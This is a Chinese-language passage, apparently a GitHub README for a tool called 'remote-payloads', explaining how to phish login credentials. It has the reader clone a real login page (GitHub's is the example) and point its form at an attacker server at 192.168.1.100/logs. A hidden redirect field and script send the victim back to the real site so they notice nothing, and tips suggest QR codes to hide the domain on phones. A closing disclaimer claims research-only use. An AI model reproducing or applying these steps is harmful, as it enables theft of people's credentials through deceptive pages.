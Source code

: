 需要将代码中userName和passwordInput改为活添加为你想要获取的输入框Id，将 http://192.168.1.100/ 换成你remote-paylaods的ip或域名

3. 让用户访问该页面，则用户在你关注的输入框中输入的内容将会被发送到你的remote-paylaods并被记录下来

![sanfengyun_1.png](./img/sanfengyun_1.png)

缺点：	1.由于remote-paylaods是HTTP服务器，所以当伪造页面为HTTPS时，其输入框可能会提示“不安全连接”
	2.表单会正确发送至原服务器，但跳转资源可能会跳转到remote-payloads的域名下，而非原服务器域名下，导致出现空白页面
优点：	如果上述两个缺点条件都不成立，那么这将是一次“无痕”钓鱼【手动滑稽， 用户感受不到差别


### 跳转式

1. 先在本地用curl或wget命令获取你想要伪造的页面，remote-payloads也支持wget命令，但获取的页面有长度限制，且不易编辑。

2. 在获取到的HTML文件中将表单<form>的action改为你remote-payloads的ip或域名+logs，然后添加一个隐藏input元素，如下：

```html
<!--将https://github.com/login页面的<form action="https://github.com/login" accept-charset="UTF-8" method="post">改为如下内容-->
<form action="http://192.168.1.100/logs" accept-charset="UTF-8" method="post"><input type="hidden" name="toUrl" value="https://github.com/login" />
```

其中`name="toUrl"`是设定好了的，不能改换（除非你改源码）

3. 当用户点击提交表单时，表单将提交至remote-paylaods，然后remote-payloads将返回`<script>window.location.replace(\"" + toUrl + "\")</script>`，页面将立即**‘变成’**toUrl网址，且不能通过返回操作至/logs页面

![github_1.png](./img/github_1.png)

缺点：	表单内容传给了remote-payloads，但没有传给原服务器，所以不能一次性通过身份验证，用户相当于需再次输入（不管之前是否输入正确）
优点：	基本不会出现剽窃式缺点中的两种情况


### 提示

- 可以将两种方法结合起来，原则就是让用户察觉不到变化（太阴了bushi

- 可以将链接转为二维码（比如使用草料二维码：https://cli.im ），用户一般只能用手机扫码，而手机是不会显示域名的（有点过了。。。


# 免责声明

**本仓库提供的内容可能带有攻击性，仅供研究学习使用，用户将其信息做其他用途，由用户承担全部法律及连带责任，本人不承担任何法律及连带责任。 **





